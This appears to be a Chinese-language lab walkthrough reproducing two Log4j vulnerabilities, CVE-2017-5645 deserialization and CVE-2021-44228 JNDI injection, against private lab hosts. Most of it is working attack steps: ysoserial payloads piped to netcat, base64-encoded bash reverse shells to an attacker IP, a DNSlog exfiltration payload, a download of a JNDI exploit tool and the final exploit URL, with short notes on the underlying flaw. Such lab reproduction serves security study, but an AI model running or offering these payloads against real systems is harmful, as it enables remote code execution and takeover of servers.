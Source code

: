 # Log4j(CVE-2017-5645)

> 反序列化漏洞

### 环境搭建

![image-20241022011021721](./assets/image-20241022011021721.png)

- 靶机:`192.168.2.254:4712`
- 攻击机:`192.168.2.13`
- jdk 1.8

- 扫描确定端口是否正常开启,否则白忙活

<img src="./assets/image-20241022011240753.png" alt="image-20241022011240753" style="zoom: 50%;" />

- 下载`Ysoserial.jar`
- https://www.123pan.com/s/H4C6Vv-MGBjh.html提取码:GGBD

### 漏洞复现

- ysoserial生成paylaod发送

```bash
java -jar ysoserial.jar CommonsCollections5 "touch /tmp/success" | nc 192.168.2.254 4712
```

![image-20241022015946843](./assets/image-20241022015946843.png)

![image-20241022015908471](./assets/image-20241022015908471.png)

- 这里不知道是什么原因,虽然没有成功创建处success,但是创建了一个`1`的文件时间是对的上的,说明存在远程命令执行
- 那么开始尝试反弹shell

```bash
#在线编码
http://www.hiencode.com/base64.html
#对反弹shell进行编码
sh -i >& /dev/tcp/192.168.2.13/8888 0>&1
#得到
c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yLjEzLzg4ODggMD4mMQ==
#写命令
bash -c "{echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yLjEzLzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i}" | nc 192.168.117.130 4712
```

- 开启监听

```bash
nc -lvvp 8888
```

![image-20241022021102350](./assets/image-20241022021102350.png)

- 执行命令

```bash
bash -c "{echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yLjEzLzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i}" | nc 192.168.117.130 4712
```

![image-20241022021143291](./assets/image-20241022021143291.png)

- 反弹成功

![image-20241022021202900](./assets/image-20241022021202900.png)

### 漏洞原理

- 概念:`Apache log4j`是一个用于java的`日志记录库`,支持启动远程日志服务
- 原理:以tcp为例,传入的`inputsstream`,没有`过滤`被包装为`ObjectInputStream`,传给`logEvents`后执行了`readObject()`进行反序列化

****

# Log4j(CVE-2021-44228)

> 远程命令执行

### 环境搭建

![image-20241022085541408](./assets/image-20241022085541408.png)

- 靶机:`192.168.2.254`
- 攻击机:`192.168.2.14`
- 需要用到`DNSlog`数据外带
- 访问:`http://192.168.2.254:8983/admin/cores?action=1`–>这里为什么要访问这个目录呢?
- 原因:根据官方文档

### 漏洞验证

![image-20241022093930984](./assets/image-20241022093930984.png)

- 我们传参数看看有什么效果

![image-20241022094059175](./assets/image-20241022094059175.png)

### 开始攻击

![image-20241022102102190](./assets/image-20241022102102190.png)

```json
# 是利用JNDI发送DNS请求的Payload，我们将其作为管理员接口的action参数值发送如下数据包：
?action=${jndi:ldap://${sys:java.version}.ri708t.dnslog.cn}
```

- DNS有数据被带出来说明存在`命令执行漏洞`
- 下载工具,准备攻击

```bash
wget https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
```

![image-20241022095253545](./assets/image-20241022095253545.png)

```bash
# 反弹shell
bash -i >& /dev/tcp/192.168.2.14/8888 0>&1
# base64编码
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTQvODg4OCAwPiYx
# 工具调用
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTQvODg4OCAwPiYx}|{base64,-d}|{bash,-i}" -A 192.168.2.14
```

![image-20241022103210893](./assets/image-20241022103210893.png)

- 与此同时再打开一个终端,监听`8888`端口

```bash
nc -lvnp 8888
```

- 将 `ldap://192.168.2.14:1389/2w5fqu`复制过来

```http
http://192.168.2.254:8983/solr/admin/cores?action=${jndi:ldap://192.168.2.14:1389/2w5fqu}
```

![image-20241022103404646](./assets/image-20241022103404646.png)

- 成功反弹

![image-20241022103459572](./assets/image-20241022103459572.png)

### 原理

- 当用户输入信息时,应用程序中的log4j2组件会将信息记录到日志中,假如日志中存在语句`{jnid:rmi://xxxx.dnslog.cn/bug}`,log4j就会去解析信息
- 通过`jnid`的`lookup()`方法去解析该url,解析到`rmi`就回去rmi中找一个叫bug的资源,找不到就会去http服务中找
- 在http服务中找到shell之后,会将资源信息返回给应用程序的log4j组件,而log4j组件就会下载下来,发现bug是个`.class`文件,就会执行里面的代码,攻击者可以通过shell实现任意命令执行

